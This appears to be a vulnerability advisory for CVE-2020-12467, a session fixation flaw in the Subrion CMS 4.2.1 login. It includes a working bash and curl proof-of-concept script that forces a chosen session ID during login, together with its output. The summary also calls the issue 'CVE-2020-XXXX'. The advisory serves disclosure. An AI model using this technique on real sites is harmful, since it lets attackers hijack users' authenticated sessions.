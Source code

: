 ```yaml
---
layout: default
parent: Subrion CMS
title: CVE-2020-12467 - Session Fixation 
nav_order: 1
---
```

# Admin/User Login - Session Fixation

## VulDB-Like Summary

A vulnerability has been found in the Subrion CMS 4.2.1. It has been rated as problematic. Affected by this issue is an unknown code. The manipulation of the session cookie with an arbitrary alphanumeric value prior to the login leads to a session fixation vulnerability. Using CWE to declare the problem leads to CWE-384. Impacted is integrity. An attacker might be able hijacking the user-validated session by forcing an arbitrary session ID.

The weakness was presented 04/12/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). The advisory is shared for download at github.com. This vulnerability is handled as CVE-2020-XXXX. The attack may be launched remotely. No form of authentication is required for exploitation. Technical details are known but no exploit is publicly available.

## Proof-of-Concept

**Sample affected URL**

* http://subrion.local/panel/

Submitting a valid login with a crafted session ID, causes the ID to be reflected and set as a valid session identifier.

The following script may be used to easily verify the vulnerability:

```bash
#!/bin/bash

username="admin"
password="Passw0rd!"
target="http://subrion.local/panel/"
proxy="http://127.0.0.1:8080"

# Grep Session Cookie Name
sess_cookie_name=$(curl -ks -x $proxy $target -I | grep "Set-Cookie" | head -n 1 | grep -oP "INTELLI_\w*")
# Grep CSRF Token
csrf_token=$(curl -ks -x http://127.0.0.1:8080 $target | grep "__st" | grep -oP "value=\"\K([a-zA-Z0-9]*)" | head -n 1)
# Fix the Session Cookie Value and login
curl -ks -x $proxy $target -X POST --data "__st=$csrf_token&username=$username&password=$password" -H "Cookie: loader=loaded; $sess_cookie_name=00000000000000000000000000" -i | grep "Set-Cookie"

```

Using the above script should give the following output, proving the vulnerability.

```
$ ./sess_fix.sh
Set-Cookie: INTELLI_06c8042c3d=00000000000000000000000000; expires=Sun, 12-Apr-2020 16:07:44 GMT; Max-Age=1800; path=/
Set-Cookie: salt=deleted; expires=Thu, 01-Jan-1970 00:00:01 GMT; Max-Age=0; path=/
```


## Remediation

Currently, no fixes are available for this issue.

## References

*   [https://owasp.org/www-community/attacks/Session_fixation](https://owasp.org/www-community/attacks/Session_fixation)



 

